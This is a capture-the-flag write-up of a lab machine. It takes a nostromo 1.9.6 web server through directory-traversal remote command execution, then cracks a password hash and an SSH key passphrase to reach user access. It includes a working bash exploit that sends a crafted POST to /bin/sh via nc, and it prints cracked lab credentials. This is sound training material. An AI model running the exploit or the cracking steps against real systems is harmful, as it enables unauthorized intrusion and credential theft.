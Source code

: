 ![](./logo.png)

Initially scanning the webpage gives us `ssh` and `http`.

Using `gobuster` on the website heavily throttles it. We're going to have to find another way.

However the web server banner is `nostromo 1.9.6`. With a quick Google it shows this server is vulnerable to
a RCE via directory traversal.

Below is a PoC created the use of `\r` allows us to obtain the `/bin/sh` binary and pass it a command we want

```sh
#!/usr/bin/env bash

HOST="$1"
PORT="$2"
shift 2

( \
    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
    echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
    | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

With the request looks like so like so:
```
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
Content-Length: 1

echo
echo
<COMMAND> 2>&1
```

This functionality is bundled up in `exploit.sh`.


Doing a `lse.sh` scan shows us a `htpasswd` file with a hash!

```
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Cracking this with `jtr` gives us:

```
david:Nowonly4me
```

This password wasn't useful anywhere, so I continued looking.


The final piece was in the `nhttp.d` file with the `HOMEDIRS` section:

The [documentation](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd) contains a section on `HOMEDIR`:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:

http://www.nazgul.ch/~hacki/

The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public 

```
With our config looking like so:
```
# HOMEDIRS [OPTIONAL]

homedirs		    /home
homedirs_public		public_www
```

This means we can access `david` from the `http` server via:

```
http://10.10.10.165/~david
```

But this was no use!

The presence of the `public_www` shows it is locked down to that directory, but what if we try from our reverse shell?

We can access it and this shows the presence of a `protected-file-area` directory!

This contains a `backup-ssh-identity-files.tgz`

This provides us with a SSH Private key we can use to connect. But - you guessed it - it is password protected so we have to do a little 
more brute forcing.

Using [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) Jumbo we can use the SSH RSA brute force functionality with
`ssh2john.py`

Then running:
```
john --format=SSH ./ssh_hash.txt
```
Gives us the password `hunter`.

The passsword on the RSA key can be removed like so:
```
openssl rsa -in id_rsa -out id_rsa_no_pass
```
We can use this to connect via `ssh` and grab the `user.txt`!


# ROOT

TODO